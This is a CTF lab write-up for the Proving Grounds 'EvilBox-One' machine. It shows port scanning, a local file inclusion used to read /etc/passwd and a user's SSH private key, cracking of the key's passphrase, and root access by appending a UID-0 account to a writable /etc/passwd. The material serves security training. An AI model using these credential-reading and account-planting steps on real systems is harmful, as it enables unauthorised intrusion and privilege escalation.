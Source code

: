 ```yaml
---
title: "Proving grounds Play: EvilBox-One"
layout: post
date: 2023-09-02 03:00
categories: writeup
---
```


Proving grounds Play - EvilBox-One CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 || Web

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/web.png)

## Fuzzing

### Files

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/robots.png)

### Directory

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/dir1.png)

Fuzz for files in `/secrets` directory.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/dir2.png)

**Found file evil.php**

http://192.168.152.212/secret/evil.php

## Fuzz for paramaters

http://192.168.152.212/secret/evil.php?FUZZ=/etc/passwd

Trying local file inclusion vulnerability to check the words retieved in the response to confirm the parameter.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/param.png)

http://192.168.152.212/secret/evil.php?command=/etc/passwd

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/lfi.png)

As shown in the above `/etc/passwd` file we have a user `mowree`.

```sh
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

Using the LFI vulnerability we can obtain the SSH key for the user `mowree`.

http://192.168.152.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/mowree-ssh.png)

SSH to mowree using the SSH key.

Using id_rsa key to login to the `mowree` user account is prompted with password to continue. So use `ssh2john` to create hash for the SSH key and crack the same using john.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/crack-password.png)

Extracted password `unicorn`

**Initial Foothold Obtained**

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/user.png)

## Privilege Escalation

Check the permissions for `/etc/passwd`.

/etc/passwd is writable so we can create our own root user.

**Writing new user to /etc/passwd**

```sh
echo "hacker:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Switch to user `hacker` and enter password `mypass` to obtain root.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).